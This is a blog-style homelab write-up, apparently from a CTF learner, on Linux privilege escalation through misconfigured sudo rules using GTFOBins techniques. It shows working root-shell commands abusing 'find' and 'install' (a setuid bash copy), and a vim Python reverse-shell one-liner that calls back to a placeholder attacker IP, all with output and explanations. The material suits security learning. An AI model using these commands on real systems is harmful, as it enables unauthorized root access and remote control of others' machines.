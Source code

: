 ```yaml
---
title: "Bypassing Local Security with Standard Binaries"
excerpt: A few examples of how one might exploit poorly configured systems using standard Linux programs
date: 2025-09-23
---
```


I recently discovered the website [GTFOBins](https://gtfobins.github.io/) while working on a CTF-challenge. To cite the website:

> The project collects legitimate functions of Unix binaries that can be used to break out of restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.
>
> It is important to note that this is not a list of exploits, and the programs listed here are not vulnerable per se, rather, GTFOBins is a compendium about how to live off the land when you only have certain binaries available.

I toyed around with some common binaries, just to see how easy privilege escalation can be under certain circumstances.

### Setting up a Misconfigured System

In my Kali Linux homelab I started by setting up a new user `dummy` with substantially lower privileges. This is done with `sudo adduser dummy`. I decided to allow this user to run the binaries `find` and `install` with sudo-privileges, as this seems like a somewhat realistic real-world scenario (granted, this should obviously still not occur in privilege-sensitive systems). To do this, we edit (as root) the `sudoers` file with `sudo visudo` and add the following two lines:
```text
dummy ALL=(ALL) NOPASSWD: /usr/bin/find
dummy ALL=(ALL) NOPASSWD: /usr/bin/install
```
As long as `sudoers` contains the line
```text
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```
we can now use `sudo find` and `sudo install` without appending `/usr/bin/` every time.

### Escalating with `find`

First, we simulate lower privileges by logging onto the dummy account with `su - dummy` and entering the password. Then the syntax is very straightforward:
```console
┌──(dummy㉿kali)-[~]
└─$ sudo find . -exec /bin/sh \; -quit                                                         
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
In more detail, this is what the snippet does:
1. `find` starts searching in the current directory.
2. `-exec /bin/sh \;` tells `find` to spawn a new shell each time a file is encountered.
3. `-quit` tells `find` to stop spawning shells after the first one.
4. Since we ran the command with `sudo`, it spawns **root** shells, and we have access to the file system.

### Escalating with `install`

The entire "exploit" goes as follows:
```console
┌──(dummy㉿kali)-[~]
└─$ sudo install -m 6777 /bin/bash ~/rootshell
┌──(dummy㉿kali)-[~]
└─$ ~/rootshell -p                                                                             
rootshell-5.2# whoami
root
rootshell-5.2# id
uid=1001(dummy) gid=1001(dummy) euid=0(root) egid=0(root) groups=0(root),100(users),1001(dummy)
```
Here is a breakdown of the above procedure:
1. The idea is to copy the binary `/bin/bash` to the home directory with _setuid_ root permissions.
2. The key part is the `-m 6777`, which sets the setuid bit so it should run as root.
    - `-m` sets the mode of the file. 6777 is an _octal_ representation of those permissions.
    - Each owner/group/others has 7 = 4+2+1 = rwx (read, write, execute), so 777 = full access for everyone.
    - The leading digit being `6xxx` tells us that we're enabling setuid and setgid. Setuid (4xxx) does the following: when you run the file, it executes with the **user ID** of the file’s owner (instead of the one running it). If root owns the file, then the program runs with root privileges. Setgid works similarly, but with the **group ID** instead.
3. We name the copy `rootshell` and save it in `~/`.
4. Lastly, we run the binary with the option `-p`, so it doesn’t drop privileges. This gives us a root shell with access to the file system.

### Reverse Shell Using VIM

The coolest application of privilege escalation I found was through the standard `vim` binary. Usually, I simply think of vim as a simple text-editor and code-writing environment, so it would not have crossed my mind that vim can be leveraged to obtain reverse shells with (potentially) root privileges. The one restriction here is that vim must be compiled with Python support.

On our Kali attacker machine, we set up a listener by running `socat file:`tty`,raw,echo=0 tcp-listen:8787`, where the port 8787 was chosen arbitrarily.

Next, on the target machine, export the variables declaring the host IP and port: 
```console
export RHOST=<Attacker_IP>
export RPORT=8787
```
Finally, run the following command on the target, using vim:
```console
vim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
vim.command(":q!")'
```
This spawns an interactive reverse shell on the attacker machine:
```console
┌──(kali㉿kali)-[~]
└─$ socat file:`tty`,raw,echo=0 tcp-listen:8787 
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
If the target was root, then the reverse shell has root privileges as well, oherwise it will have the privileges of whatever user was active on the target. Here is a step by step breakdown of the above payload, since it is relatively cluttered:

1. `vim -c '...'`
    - `vim -c` runs an **Ex command** at startup.
    - Here, the command is a `:py` block (Python code executed inside vim).
2. `:py import vim,sys,socket,os,pty; ...`
    - Runs Python code inside vim (if Vim was compiled with Python support).
3. `s=socket.socket()`
    - Creates a TCP socket object in Python.
4. `s.connect((os.getenv("RHOST"), int(os.getenv("RPORT"))))`
    - Connects the socket to the IP (`RHOST`) and port (`RPORT`) defined in environment variables.
    - This is the reverse shell connection: **the system running vim connects back to an attacker's machine.**
5. `[os.dup2(s.fileno(), fd) for fd in (0,1,2)]`
    - Redirects standard input (`0`), standard output (`1`), and standard error (`2`) to the socket.
    - This allows the attacker to interact with the shell remotely.
6. `pty.spawn("/bin/sh")`
    - Spawns a pseudo-terminal running `/bin/sh`.
    - Makes the reverse shell more interactive, behaving like a real terminal.
7. `vim.command(":q!")`
    - Tells vim to quit immediately after launching the reverse shell.
    - Leaves only the shell running, hidden from view.

An important detail is that you need to replace `py` by `py3` if vim is compiled with Python3. To check whether this is the case, run `vim --version | grep python`. If you don't see something like `+python3`, then add this functionality:
```console
sudo apt update
sudo apt install vim-nox
```











